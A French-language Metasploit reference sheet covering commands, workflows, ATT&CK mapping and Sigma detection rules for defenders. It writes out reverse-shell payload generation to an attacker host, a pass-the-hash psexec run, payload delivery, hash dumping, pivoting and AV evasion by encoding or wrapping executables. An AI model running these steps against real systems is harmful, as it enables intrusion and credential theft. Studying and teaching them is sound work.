

# 🕹️ Metasploit — Framework d'exploitation et post-exploitation

> [!info] **En 1 phrase**
> Metasploit Framework est le framework d'exploitation open-source le plus utilisé : recherche de modules, génération de payloads avec `msfvenom`, exploitation et post-exploitation via Meterpreter.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Description | Framework d'exploitation et de post-exploitation : modules exploit/auxiliary/payload/post, console `msfconsole`, `msfvenom`, sessions Meterpreter |
| Catégorie | 🕹️ C2 & Post-Exploitation |
| Type d'outil | Framework (CLI `msfconsole`, GUI commerciale Metasploit Pro) |
| Licence | BSD-3-Clause (framework) ; éditions Community/Express/Pro propriétaires |
| Langage(s) | Ruby (~95 %), C, Assembly, PowerShell, Python |
| Développeur | H. D. Moore (créateur, 2003) ; Rapid7 (mainteneur, acquisition 2009) |
| Dépôt | https://github.com/rapid7/metasploit-framework |
| Documentation | https://docs.metasploit.com |
| Date de création | Octobre 2003 (v1.0 en Perl) ; réécrit en Ruby en 2007 (v3.0) |
| État | actif (mises à jour quasi quotidiennes) |
| Dernière version connue | 6.5 (2026-07-30) ; builds nightly 6.4.x |
| Systèmes compatibles | Linux, Windows, macOS (requiert Ruby) |

> [!note] À vérifier
> Metasploit 6.5 introduit notamment le serveur MCP (`msfmcpd`), les profils Malleable C2 et le tagging MITRE ATT&CK. Version exacte : https://github.com/rapid7/metasploit-framework/releases.

---

## 🎯 Concept

Metasploit automatise l'exploitation d'une vulnérabilité de la phase « scanner » jusqu'à la prise de contrôle. Il centralise des milliers de modules `exploit/`, `auxiliary/`, `payload/` et `post/`, pilotés depuis `msfconsole`. On l'utilise quand une vulnérabilité est identifiée (CVE, port exposé, service faible) et qu'on veut un payload fiable (Meterpreter, shell, reverse HTTPS) ou une session de post-exploitation. Il couvre tout le cycle : **scan** (`auxiliary/scanner/*`, `db_nmap`), **exploitation**, **payloads** (`msfvenom`), **post-exploitation** (Meterpreter), **pivoting** (`route`, `portfwd`) et **persistance**. La base PostgreSQL (`msfdb init`) corrèle hôtes, vulnérabilités et sessions. Historique : créé par H. D. Moore en 2003 (11 exploits en Perl), réécrit en Ruby en 2007 (v3.0), racheté par Rapid7 en 2009 ; référencé dans MITRE ATT&CK (T1588.002) par de nombreux acteurs (APT, CopyKittens, Magic Hound).



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Module | Unité de code (Ruby) chargée à la demande : exploit/auxiliary/payload/post/encoder/nop |
| Payload | Code exécuté après l'exploit : `meterpreter`, shell, bind/reverse, staged/stageless |
| Staged vs stageless | Staged = petit stager télécharge le reste ; stageless = tout en un (plus fiable, plus lourd) |
| Meterpreter | Payload in-memory qui charge des extensions à la volée (stdapi, priv, kiwi, powershell) |
| Handler | Écouteur (`exploit/multi/handler`) qui attend la connexion du payload |
| LHOST / LPORT / RHOSTS | Options : IP/port local (attaquant) et hôte(s) cible(s) |
| Msfvenom | Générateur de payloads : format, encodeur, itérations |
| Base de données | PostgreSQL optionnelle (`msfdb init`) : `db_nmap`, `hosts`, `services`, `vulns`, `creds` |
| Resource script (.rc) | Script de commandes msfconsole, exécuté par `msfconsole -r` |
| Extensions Meterpreter | `getsystem`, `hashdump`, `kiwi` (mimikatz), `powershell`, `sniffer` |
| Pivoting | `route add` (routage via session) et `portfwd` (forward de ports) vers le réseau interne |
| Defanged mode | `-d` : mode « édenté » de msfconsole qui bloque les actions destructrices |

---

## 🛠️ Installation

```bash
# Debian/Ubuntu/Kali · Arch (AUR) · macOS
sudo apt update && sudo apt install -y metasploit-framework
yay -S metasploit
brew install metasploit
# Paquet officiel Rapid7 (Linux) : msfupdate / Docker
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate -o msfupdate
chmod +x msfupdate && sudo ./msfupdate
docker run --rm -it metasploitframework/metasploit-framework
# Windows : installeur officiel 64-bit — https://www.metasploit.com/
```

```bash
# Compilation depuis les sources + init BDD + vérification
git clone https://github.com/rapid7/metasploit-framework
cd metasploit-framework && bundle install
sudo systemctl enable --now postgresql
msfdb init
msfconsole -q -x "version; exit"
```

> [!warning] ⚠️ Prérequis
> - Ruby >= 3.x et Bundler requis pour la compilation. `msfdb init` au moins une fois pour `db_nmap`/`vulns` (sinon `sudo systemctl status postgresql`).
> - Mises à jour : `msfupdate` ou `git pull && bundle install`. Un antivirus peut bloquer la génération de payloads : tester en lab isolé.

---

## ⚙️ Configuration

Répertoire de configuration : `~/.msf4/` (Linux/macOS), `%USERPROFILE%\.msf4\` (Windows).

| Paramètre | Rôle | Exemple |
|---|---|---|
| `msfconsole.rc` | Script exécuté à chaque démarrage | `setg LHOST 10.10.14.5` |
| `database.yml` | Paramètres de connexion PostgreSQL | connexion auto à la BDD |
| `loot/` | Données récupérées (hashes, fichiers, captures) | listé par `loot` |
| `modules/` | Modules personnalisés (Ruby) | `modules/exploit/custom/foo.rb` |
| `plugins/` | Plugins (ex : `db_tracker`) | `load db_tracker` |
| Variables d'environnement | `LHOST`, `LPORT`, `DATABASE_URL` | init automatique du handler |

> [!note] À vérifier
> La structure exacte de `.msf4` varie selon versions et installeur : vérifier avec `echo $HOME/.msf4`.

---

## 🏗️ Architecture interne

- **Msf::Framework** : cœur, charge les modules depuis `modules/`.
- **msfconsole** : interface interactive (Readline), historique, resource scripts.
- **Modules** : classes Ruby avec métadonnées (rank, CVE, cible) — exploit/auxiliary/post/payload/encoder/nop/evasion.
- **Msfvenom** : générateur standalone de payloads (`-f`, `-e`, `-i`).
- **Meterpreter** : DLL injectée avec extensions chargées à la volée ; transport TCP/HTTP/HTTPS/DNS.
- **Base de données** : ActiveRecord (PostgreSQL) pour hosts, services, vulns, creds, loots, sessions.
- **Job system** : handlers et modules en tâches de fond (`-j`, `-z`).
- **Rex / Msf::Core** : sockets et protocol handlers (SMB, HTTP, Kerberos).

Flux d'exécution : `use` → `check` → `exploit` → génération du payload (msfvenom interne) → envoi → handler reçoit la connexion → session créée → post-exploitation. Metasploit 6.5 ajoute le serveur MCP (`msfmcpd`), les profils Malleable C2 et le relais NTLM avancé.

---

## ⌨️ Commandes

| Commande | Effet |
|---|---|
| `msfconsole -q` | Lance la console sans bannière |
| `search <mot-clé>` | Cherche un module (filtres `name:`, `cve:`, `platform:`, `type:`) |
| `use <module>` / `info` / `show options` | Charge, inspecte un module |
| `set LHOST` / `setg` / `unset` | Définit une option (globale avec `setg`) |
| `check` | Vérifie si la cible est vulnérable (si supporté) |
| `run` / `exploit` | Lance l'exploit (`-j` en tâche de fond) |
| `sessions` | Liste ; `-i 1` interagit ; `-u 1` upgrade ; `-k 1` tue |
| `background` | Met la session en arrière-plan |
| `db_nmap -sV` | Enregistre un scan nmap dans la BDD |
| `hosts` / `services` / `vulns` / `creds` | Affiche la BDD |
| `workspace -a <nom>` | Crée un workspace séparé |
| `resource <script.rc>` / `makerc` | Exécute / sauvegarde un resource script |
| `route add <subnet> <mask> <session>` | Pivoting via une session |
| `portfwd add -L <ip> -p <port> -r <ip> -P <port>` | Forward de port via session |
| `exit -y` | Quitte sans confirmation |

```bash
# msfvenom — payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o payload.exe
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=10.10.14.5 LPORT=443 -f elf -o shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f raw -o shell.php
msfvenom --list formats; msfvenom --list encoders
```

```bash
# Meterpreter
sysinfo; getuid; getprivs; getsystem; hashdump
download <src> <dst>; upload <src> <dst>; shell; migrate <pid>
run post/multi/recon/local_exploit_suggester; load kiwi
```

---

## 🎚️ Options et flags

| Outil | Option | Description |
|---|---|---|
| msfconsole | `-q` | Pas de bannière |
| msfconsole | `-x <cmd>` | Exécute une commande puis continue |
| msfconsole | `-r <fichier>` | Exécute un resource script |
| msfconsole | `-o <fichier>` | Redirige la sortie vers un fichier |
| msfconsole | `-m <dir>` | Répertoire supplémentaire de modules |
| msfconsole | `-p <plugin>` | Charge un plugin au démarrage |
| msfconsole | `-y <database.yml>` | Fichier YAML de configuration BDD |
| msfconsole | `-n` / `-d` | Désactive la BDD / mode defanged |
| msfvenom | `-p <payload>` | Payload à générer |
| msfvenom | `-f <format>` | Format de sortie (exe, elf, raw, psh, vba…) |
| msfvenom | `-o <fichier>` | Fichier de sortie |
| msfvenom | `-e <encodeur>` / `-i <n>` | Encodeur et itérations d'encodage |
| msfvenom | `--platform <p>` / `-a <arch>` | Plateforme et architecture cible |
| msfvenom | `--list formats` / `--list encoders` | Liste des formats/encodeurs |
| msfvenom | `-x <exe> -k` | Template d'exécutable à envelopper (en conserve le comportement) |

> [!tip] Options les plus utiles
> `setg LHOST` / `setg LPORT`, `run -j -z` (handler en fond non interactif), `sessions -i 1`, `db_nmap`, `search type:exploit platform:windows`.

---

## 🧪 Exemples pratiques

### Advanced — Pass-the-Hash avec psexec

```bash
use exploit/windows/smb/psexec
set RHOSTS 10.10.10.20
set SMBUser administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5
run
```

### Expert — pivoting vers le réseau interne

```bash
sessions -i 1
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/24
route add 172.16.5.0/24 1
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.5.10
run
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Préparer l'écouteur** — `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set LHOST 10.10.14.5`, `set LPORT 4444`, `run -j`.
2. **Générer le payload** : `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o payload.exe`.
3. **Livrer** `payload.exe` (upload web, partage SMB, mail) puis l'exécuter sur la cible.
4. **Récupérer la session** — `sessions` puis `sessions -i 1`.
5. **Post-exploitation** : `sysinfo`, `getuid`, `getsystem`, `hashdump`, `download C:/Users/Administrator/Desktop/flag.txt ./loot/`, `shell`.
6. **Pivoter** : `route add 172.16.5.0/24 1` puis scanner le sous-réseau interne.

---

## 🎬 Scénarios avancés

### Scénario 1 : Automatisation via resource script (handler)

```bash
# handler.rc
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5
set LPORT 4444
set ExitOnSession false
exploit -j -z
msfconsole -q -r handler.rc
```

### Scénario 3 : Web delivery (payload PowerShell one-liner)

```bash
use exploit/multi/script/web_delivery
set TARGET 2
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5
set LPORT 4444
run
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance / énumération | `auxiliary/scanner/*` (SMB, SSH, HTTP, SNMP…), `db_nmap` |
| Recherche de vulnérabilités | `search cve:` / `search name:`, `auxiliary/scanner/vuln/*` |
| Exploitation | `exploit/*` sur les CVE identifiées |
| Livraison de payloads | `msfvenom` + `web_delivery`, `multi/handler` |
| Post-exploitation | Meterpreter : `hashdump`, `kiwi`, `getsystem`, `download` |
| Pivoting | `route`, `portfwd` vers le réseau interne |
| C2 | Handlers multiples, transports HTTPS, profils Malleable C2 (6.5) |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Détection | Mitigation |
|---|---|---|---|---|
| Resource Development | Obtain Capabilities : Tool | T1588.002 | Inventory des outils, hash-based detection (EDR) | AppLocker/WDAC |
| Resource Development | Obtain Capabilities : Exploits | T1588.005 | Corrélation CVE / patch management | Patching rapide des CVE |
| Initial Access | Exploit Public-Facing Application | T1190 | WAF, honeypots, détection des probes | Durcissement, segmentation |
| Execution | Command and Scripting Interpreter | T1059 | Sigma `proc_creation_*`, AMSI, ScriptBlock logging | AMSI, AppLocker |
| Discovery | Network Service Discovery | T1046 | SYN rates, port scans (voir fiche Nmap) | Firewall, rate-limiting |
| Lateral Movement | Exploitation of Remote Services | T1210 | Sigma psexec service install (6fb63b40) | Segmentation, patch, LAPS |
| Lateral Movement | Protocol Tunneling | T1572 | Flux sortants inhabituels (SOCKS) | Egress filtering |
| Command and Control | Application Layer Protocol | T1071 | Connexions sortantes régulières inhabituelles | Egress filtering, TLS inspection |
| Defense Evasion | Process Injection | T1055 | Sysmon Event ID 10, GrantedAccess 0x147a/0x1f3fff | EDR, Sysmon |
| Credential Access | OS Credential Dumping | T1003 | Sysmon Event ID 10 sur lsass.exe, AMSI | LSA Protection, Credential Guard |
| Privilege Escalation | Exploitation for Privilege Escalation | T1068 | Sigma getsystem (15619216) | Patch, durcissement des services |
| Persistence | Create or Modify System Process : Windows Service | T1543.003 | Event 4697, Sigma psexec service install | Restriction création de services |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Metasploit est un framework : la technique dépend du module. Le mapping le plus générique est T1588.002 ; les autres lignes correspondent à des usages types.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Connexions sortantes vers ports inhabituels (4444, 5555, 443 reverse) | Egress filtering, surveillance des connexions longues |
| Échanges Meterpreter (sockets persistants, keep-alive réguliers) | IDS/IPS signature, analyse du volume |
| Payload non obfusqué flaggé par l'AV/EDR | EDR, AppLocker, exécution contrôlée |
| Scripts PowerShell inspectés par AMSI | Surveillance des événements AMSI et bypass |
| Création de processus enfants inhabituels (`powershell`, `cmd`) | Corrélation des événements de processus (Sysmon) |
| Service psexec : binaire 8 chars + service 4/8/16 chars | Event 4697, restriction de création de services |

### Règles de détection (Sigma / Suricata / Snort)

```yaml
# Sigma — Installation de service via SMB PsExec (Metasploit / Impacket)
# Source : SigmaHQ — win_security_metasploit_or_impacket_smb_psexec_service_install
title: Metasploit Or Impacket Service Installation Via SMB PsExec
id: 6fb63b40-e02a-403e-9ffd-3bcc1d749442
status: test
description: Detects usage of Metasploit SMB PsExec and Impacket psexec.py via service installation
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4697
        ServiceFileName|re: '^%systemroot%\\[a-zA-Z]{8}\.exe$'
        ServiceName|re: '(^[a-zA-Z]{4}$)|(^[a-zA-Z]{8}$)|(^[a-zA-Z]{16}$)'
        ServiceStartType: 3
        ServiceType: '0x10'
    filter:
        ServiceName: 'PSEXESVC'
    condition: selection and not filter
falsepositives:
    - Possible, different agents with an 8 character binary and a 4, 8 or 16 character service name
level: critical
```

```yaml
# Sigma — Activité Meterpreter/CobaltStrike (getsystem)
# Source : SigmaHQ — proc_creation_win_hktl_meterpreter_getsystem
title: Potential Meterpreter/CobaltStrike Activity
id: 15619216-e993-4721-b590-4c520615a67d
status: test
description: Detects the use of getsystem Meterpreter/Cobalt Strike command via a specific service starting
logsource:
    category: process_creation
    product: windows
detection:
    selection_img:
        ParentImage|endswith: '\services.exe'
    selection_technique_1:
        CommandLine|contains|all:
            - '/c'
            - 'echo'
            - '\pipe\'
    condition: selection_img and 1 of selection_technique_*
falsepositives:
    - Commandlines containing components like cmd accidentally
level: high
```

> [!note] À vérifier
> Les exemples Sigma proviennent du dépôt officiel SigmaHQ (identifiants vérifiés). Les alertes Suricata sur les ports d'écoute courants (4444) restent un exemple pédagogique à adapter.

---

## 🤖 Automatisation

```bash
# Bash — lancement d'un handler (handler.sh)
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST $1; set LPORT ${2:-4444}; exploit -j"
```

```python
# Python — interaction avec msfrpc (plugin : load msgrpc ServerHost=127.0.0.1 ServerPort=55552 Pass=abc)
import json, requests
rpc = requests.post('http://127.0.0.1:55552/api/', json={
    'jsonrpc': '2.0', 'id': 1, 'method': 'auth.login', 'params': {'user': 'msf', 'pass': 'abc'}})
token = rpc.json()['result']['token']
print(json.dumps(requests.post('http://127.0.0.1:55552/api/', json={
    'jsonrpc': '2.0', 'id': 2, 'method': 'module.info',
    'params': {'token': token, 'module': 'exploit/multi/handler'}}).json(), indent=2))
```

---

## 📤 Output et parsing

Les résultats sont stockés dans la base PostgreSQL : `hosts`, `services`, `vulns`, `creds`, `loot`.

```bash
# Dans msfconsole — export des services en CSV
services -p 445 -c host,port,state,info
# Depuis le shell — requête directe PostgreSQL
sudo -u postgres psql -d msf -c "SELECT host, port, name FROM services WHERE name IS NOT NULL;"
```

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - Nmap]] — `db_nmap` alimente la base de données
- [[Outil - Impacket]] — psexec.py/wmiexec.py équivalents hors framework
- [[Outil - Mimikatz]] — dump de credentials (chargé via `load kiwi`)
- [[Outil - Evil-WinRM]] — alternative pour les sessions WinRM
- [[Outil - SearchSploit]] — recherche d'exploits avant le module
- [[Outil - Ligolo-ng]] / [[Outil - Chisel]] — tunneling et pivoting
- [[Outil - Covenant]] / [[Outil - Sliver]] — frameworks C2 alternatifs
- [[Techniques/Reverse Shells|🐚 Reverse Shells]] · [[Techniques/Pivoting et Tunneling|🌉 Pivoting]] · [[Techniques/CVE Exploits|🐛 CVE Exploits]]

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| Cobalt Strike | Malleable C2, très furtif, plugin ecosystem | Commercial, licence par acteur | Red team professionnel |
| Sliver | Go, C2 moderne, opérations furtives | Moins de modules d'exploit prêts | C2 alternatif |
| Impacket | Scripts Python (psexec, wmiexec, secretsdump) | Pas de console, sans Meterpreter | Opérations rapides et scriptables |
| SearchSploit / Exploit-DB | Exploits détaillés avec code source | Pas d'automatisation de session | Recherche manuelle d'exploits |

> **Quand utiliser Impacket plutôt que Metasploit ?** Avec un accès et des credentials valides, `impacket-psexec`, `wmiexec` ou `secretsdump` sont plus rapides et plus légers. Metasploit reste roi pour l'exploitation de CVE et les sessions Meterpreter.

---

## ⚡ Performance

- Pas conçu pour la vitesse de scan : préférer Nmap/Masscan et importer via `db_nmap`.
- Le démarrage de `msfconsole` prend quelques secondes (modules + BDD) ; `-q` enlève la bannière mais pas ce coût.
- `msfvenom` est quasi instantané ; `multi/handler` accepte plusieurs sessions (`ExitOnSession false`).
- La BDD PostgreSQL gère des milliers d'hôtes ; `workspace -a` isole les engagements.

---

## 🛠️ Troubleshooting

#### Problème : `msfdb init` échoue ou la BDD n'est pas connectée

- **Cause** : PostgreSQL non démarré ou conflit (port, anciennes données).
- **Solution** : `sudo systemctl enable --now postgresql` ; en conflit : `sudo msfdb reinit` ou configurer `database.yml`. **Vérif** : `db_status` = `Connected to msf`.

#### Problème : le payload ne « call back » pas

- **Cause** : LHOST incorrect (IP privée au lieu de IP publique/tunnel), firewall cible, port filtré.
- **Solution** : vérifier `LHOST` avec `ip addr`, tester 80/443, vérifier le listener (`jobs`). **Vérif** : `sudo tcpdump -i eth0 port 4444`.

#### Problème : payload détecté par l'AV/EDR

- **Cause** : payload générique non obfusqué.
- **Solution** : encoder (`-e x86/xor -i 5`), wrapper (`-x putty.exe -k`), `web_delivery` PowerShell. **Vérif** : `msfvenom --list encoders`.

#### Problème : `exploit` échoue avec « connection refused / timeout »

- **Cause** : cible non vulnérable, service patché, port fermé, module incorrect.
- **Solution** : re-vérifier avec `db_nmap -sV`, utiliser `check`, chercher un module alternatif. **Vérif** : `nc -vz 10.10.10.20 445`.

#### Problème : les sessions se terminent en plein travail

- **Cause** : handler en avant-plan trop tôt, `ExitOnSession`, processus migré qui meurt.
- **Solution** : `set ExitOnSession false`, `sessions -u`, migrer vers `explorer.exe`. **Vérif** : `jobs -l`.

---

## 🔐 Sécurité de l'outil- **Légalité** : Metasploit est dual-use ; son usage hors périmètre autorisé est illégal. Toujours faire signer un cadre d'intervention.
- **Bruit** : les exploits Metasploit sont connus des signatures IDS/AV ; en red team, privilégier payloads personnalisés et ports 80/443.
- **Télémétrie** : le framework open source n'envoie pas de télémétrie obligatoire ; les éditions Pro/Community en collectent davantage.
- **msfrpc** : exposer ce plugin sans authentification forte est une backdoor totale — restreindre à loopback et mot de passe fort.
- **Payloads sur disque** : les fichiers non obfusqués sont flaggés par l'AV et constituent des IOC — générer en lab isolé.
- **Secrets** : hashes et loots restent dans `~/.msf4/loot/` — chiffrer le home et effacer après engagement.

---

## ⚠️ Limitations

- La **vitesse de scan** est médiocre : utiliser Nmap/Masscan en amont.
- Un **module peut échouer** sur une version légèrement différente ; `check` n'existe pas pour tous.
- La **stabilité des sessions** varie : un process qui meurt coupe la session (d'où l'importance de `migrate`).
- Les **payloads par défaut** sont connus des EDR/AV — l'obfuscation avancée nécessite du travail manuel.
- **Windows moderne** (Credential Guard, LSA Protection) bloque `hashdump`/`kiwi` dans bien des cas.
- L'**évasion réseau** (Malleable C2) n'arrive qu'en 6.5, moins mature que Cobalt Strike.
- Les modules peuvent être **datés** : toujours valider avec la version réelle du service.

---

## 📋 Cheatsheet

```bash
# Console + handler
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5
set LPORT 4444
run -j -z

# Exploit type
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.20
run

# Payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o payload.exe

# Sessions + Meterpreter
sessions -i 1
sysinfo; getuid; getsystem; hashdump
shell

# BDD + pivoting
db_nmap -sV -p- 10.10.10.10
hosts; services -p 445; vulns
route add 172.16.5.0/24 1
portfwd add -L 127.0.0.1 -p 8080 -r 172.16.5.10 -P 80
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Exploitation de vulnérabilités, génération de payloads, sessions Meterpreter, post-exploitation |
| **Quand l'utiliser ?** | Dès qu'une vulnérabilité est identifiée (CVE, service faible, credentials volés) |
| **Commande principale** | `msfconsole -q` puis `search`, `use`, `set`, `run` |
| **Alternative principale** | Impacket (léger), Sliver/Covenant (C2), Cobalt Strike (red team pro) |
| **Concepts importants** | Modules, payloads, Meterpreter, handlers, LHOST/LPORT, pivoting, BDD |
| **Liens associés** | [[Outil - Nmap]] · [[Outil - Impacket]] · [[Outil - Evil-WinRM]] · [[Outil - SearchSploit]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Connexions sortantes vers ports inhabituels (4444, 5555, 443 reverse) | Egress filtering, surveillance des connexions longues |
| Échanges Meterpreter (sockets persistants, keep-alive réguliers) | IDS/IPS signature, analyse du volume |
| Payload non obfusqué flaggé par l'AV/EDR | EDR, exécution contrôlée, AppLocker |
| Scripts PowerShell inspectés par AMSI | Surveillance des événements AMSI et bypass |
| Création de processus enfants inhabituels (`powershell`, `cmd`) | Corrélation des événements de processus (Sysmon) |
| Exploits de CVE non patchées | Patch rapide, segmentation réseau |
| Service psexec (binaire 8 chars + service 4/8/16 chars) | Sigma `6fb63b40` (Event 4697), restriction création de services |
| Shellcode injection (`migrate`) | Sysmon Event ID 10, GrantedAccess 0x147a/0x1f3fff |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Toujours `msfdb init` au premier lancement ; `setg` pour ne pas répéter LHOST/LPORT.
> - `run -j -z` lance un handler en tâche de fond sans bloquer la console.
> - `sessions -u <id>` upgrade un shell en Meterpreter.
> - Isoler chaque engagement dans un `workspace` (`workspace -a HTB-box`).

> [!warning] ⚠️ **Pièges**
> - Un payload non obfusqué est détecté immédiatement par Defender/EDR : tester en lab, préférer 443/80 à 4444.
> - `LHOST` doit être l'IP **joignable** par la cible (tunnel VPN), pas localhost.
> - Ne jamais exposer `msfrpc` sans authentification : backdoor totale.
> - Un module « rank excellent » peut échouer sur une cible patchée : re-scanner avant.
> - Effacer les loots (hashes, fichiers) après l'engagement.

---

## 📚 References

### Official

- Documentation officielle : https://docs.metasploit.com
- GitHub : https://github.com/rapid7/metasploit-framework
- Site officiel : https://www.metasploit.com
- Release notes Rapid7 : https://docs.rapid7.com/release-notes/metasploit/
- Metasploit 6.5 (annonce) : https://www.rapid7.com/blog/post/pt-metasploit-framework-6-5-released/

### Security references

- MITRE ATT&CK T1588.002 — Obtain Capabilities : Tool : https://attack.mitre.org/techniques/T1588/002/
- MITRE ATT&CK T1210 — Exploitation of Remote Services : https://attack.mitre.org/techniques/T1210/
- SigmaHQ — psexec service install : https://github.com/SigmaHQ/sigma/blob/master/rules/windows/builtin/security/win_security_metasploit_or_impacket_smb_psexec_service_install.yml
- SigmaHQ — meterpreter getsystem : https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_hktl_meterpreter_getsystem.yml

### Community

- Cheatsheet HackTricks : https://book.hacktricks.xyz/exploiting/metasploit-cheatsheet
- Offensive Security — Metasploit Unleashed : https://www.offsec.com/metasploit-unleashed/

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Reverse Shells|🐚 Reverse Shells]] · [[Techniques/Pivoting et Tunneling|🌉 Pivoting]] · [[Techniques/CVE Exploits|🐛 CVE Exploits]]
